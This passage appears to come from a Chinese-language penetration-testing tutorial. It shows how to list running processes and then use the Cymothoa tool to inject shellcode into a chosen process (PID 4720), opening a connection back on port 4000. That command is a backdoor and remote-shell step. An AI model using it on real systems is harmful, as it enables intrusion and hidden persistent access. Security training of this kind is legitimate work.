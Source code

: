 1.  让我们通过输入以下命令来寻找一个进程进行附加：

```
ps -aux
```

![](img/1dca6590-6115-45fe-9ee0-ce27e0248ffc.png)Armitage 全屏

1.  现在让我们尝试附加到我们看到的一个进程——记下一个 PID 值——shell 进程是一个很好的尝试。在这种情况下，我们将使用 PID `4720`，并将在端口 `4000` 上打开一个反向连接的洞口：

```
./cymothoa -p 4720 -s 1 -y 4000
```
